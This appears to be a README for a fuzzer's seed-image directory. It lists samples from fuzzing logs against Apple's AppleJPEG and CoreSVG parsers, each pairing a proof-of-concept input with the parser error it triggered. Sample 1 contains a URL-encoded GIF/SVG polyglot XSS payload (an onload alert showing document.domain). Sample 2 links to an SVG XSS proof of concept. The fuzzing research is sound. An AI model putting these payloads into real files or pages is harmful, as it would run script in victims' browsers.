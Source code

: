 # Images Directory for Seeding Fuzzer
## Looking for Errors
Samples from Fuzzing Logs

### Sample 1
#### Example Instrumented module AppleJPEG
PoC: xss.gif
```
GIF89a%3a%2f%2a%3c%73%76%67%2f%6f%6e%6c%6f%61%64%3d%61%6c%65%72%74%28%31%29%3e%2a%2f%3d%61%6c%65%72%74%28%64%6f%63%75%6d%65%6e%74%2e%64%6f%6d%61%69%6e%29%2f%2f%3b
```
#### Nugget for Function Targeting
```
Failed to parse viewBox for node name "svg"CoreSVG: Error: SVGShapeNode: Error parsing atom: cx
```
### Sample 2
#### Example Instrumented module AppleJPEG
PoC: https://raw.githubusercontent.com/xsscx/Commodity-Injection-Signatures/master/svg/xss-xml-svg-font-example-poc-7.svg
#### Nugget for Function Targeting
```
Failed to parse viewBox for node name "svg"CoreSVG: Error: SVGShapeNode: Error parsing atom: cy
```
### Sample 3
#### Example Instrumented module CoreSVG
PoC: Namespace XSS
#### Nugget for Function Targeting
```
namespace error : xmlns: 'http://wwwHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH{{{{{{{{{{{{{{{{{{{{{{{{{{{{{lert('script')' is not a valid URI
//wwwHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH{{{{{{{{{{{{{{{{{{{{{{{{{{{{{lert('script')"
```

